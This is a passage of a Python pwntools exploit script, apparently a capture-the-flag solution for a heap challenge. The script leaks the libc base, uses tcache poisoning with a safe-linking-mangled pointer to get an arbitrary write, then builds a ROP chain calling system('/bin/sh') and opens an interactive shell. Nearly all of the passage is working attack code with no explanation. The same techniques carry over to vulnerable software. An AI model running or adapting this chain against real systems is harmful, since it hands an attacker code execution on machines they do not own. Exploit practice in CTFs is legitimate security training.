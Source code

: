```python
r.recvuntil(b": ")
libcbase = (u64(r.recv(6)+b"\x00\x00")- 0x203b20)
success("Libc Base -> %s"%hex(libcbase))

create(0x100)
create(0x100)
kill(2)
kill(3)

writeadr = heapadr + 0xa0
writeadr = (writeadr) ^ (heapadr >> 12)
r.sendlineafter(b">>>", b"3")
r.sendlineafter(b":", b"3")
r.sendlineafter(b":", p64(writeadr))

create(0x100) # 4
create(0x100) # 5

r.sendlineafter(b">>>", b"3")
r.sendlineafter(b":", b"5")
r.sendlineafter(b":", p64(0)+p64(adrtg - 0x8))

create(0x40) # 6

binsh = libcbase + 0x001cb42f
poprdi = libcbase + 0x000000000010f75b
system = libcbase + 0x0000000000058740
payload = p64(0) + p64(poprdi) + p64(binsh) + p64(poprdi+1) + p64(system)
r.sendlineafter(b">>>", b"3")
r.sendlineafter(b":", b"6")
r.sendlineafter(b":", payload)

r.interactive()
```

